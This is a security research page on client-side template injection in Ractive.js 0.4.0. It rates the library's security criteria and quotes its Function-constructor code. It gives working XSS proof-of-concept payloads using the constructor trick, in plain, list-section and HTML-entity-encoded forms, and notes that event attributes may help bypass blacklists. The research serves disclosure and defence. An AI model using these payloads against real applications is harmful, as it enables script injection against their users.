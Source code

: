

# Introduction #

"Ractive.js is a template-driven UI library, but unlike other tools that generate inert HTML, it transforms your templates into blueprints for apps that are interactive by default.

Two-way binding, animations, SVG support and more are provided out-of-the-box – but you can add whatever functionality you need by downloading and creating plugins.

Some tools force you to learn a new vocabulary and structure your app in a particular way. Ractive works for you, not the other way around – and it plays well with other libraries."

From http://www.ractivejs.org/

# Quick Facts #

  * [Ractive.js 0.4.0 (Uncompressed)](http://cdn.ractivejs.org/latest/ractive.js)
  * Usage Stats http://trends.builtwith.com/javascript/RactiveJS


  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are equivalent to `eval`
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope, yet attempts to pre-parse expressions
  * **{}SEC-C** <font color='red'><b>FAIL</b></font> JavaScript code will be executed from within HTML element's `textContent`
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, a mailing list exists though

# Injection Attacks #

## Ractive.js 0.4.0 ##

The modern web's new XSS vector using the constructor trick also works in Ractive.js. Important: we have to call the constructor of a native object like `String` or `Number` and cannot use the template expression's constructor. The latter would throw an error.

The following "paste-and-go"-ready code example demonstrates that.

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<div id="test">{{1..constructor.constructor("alert(1)")()}}</div>
<script>
new Ractive({template: '#test'});
</script>
```

Similar things can be done with list sections:

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<div id="test">{{#1..constructor.constructor('alert(1)')():num}}</div>
<script>
new Ractive({template: '#test'});
</script>
```

And, almost needless to say, encoded payload does the trick too:

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<div id="test">&#x7b;&#x7b;&#x23;1..constructor.constructor('alert(1)')():num&#x7d;&#x7d;</div>
<script>
new Ractive({template: '#test'});
</script>
```

## Eval via Function ##

As can be seen, very much like most other frameworks, Ractive.js is throwing templating expressions directly into the `Function` constructor for direct string-to-code. So, nothing new to see here, classic case over possible user-input meeting an `eval` equivalent.

```
function getFunctionFromString( str, i ) {
	var fn, args;
	str = str.replace( /\$\{([0-9]+)\}/g, '_$1' );
	if ( cache[ str ] ) {
		return cache[ str ];
	}
	args = [];
	while ( i-- ) {
		args[ i ] = '_' + i;
	}
	fn = new Function( args.join( ',' ), 'return(' + str + ')' );
	cache[ str ] = fn;
	return fn;
}
```

## Peculiarities ##

In Ractive.js, events are being declared by using dash-separated attribute names. This doesn't seem to be vulnerable but is worth a mention as it might aid an attacker in bypassing injection black-lists and do stuff to and with the existing code.

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<script id="template" type="text/ractive">
    <div on-click="test">Clickme</div>
</script>
<div id="el"></div>
<script>
r = new Ractive({
    template: '#template',
    el: '#el',
    data: {}
})
r.on('test', function(event) {
    alert(1)
})
</script>
```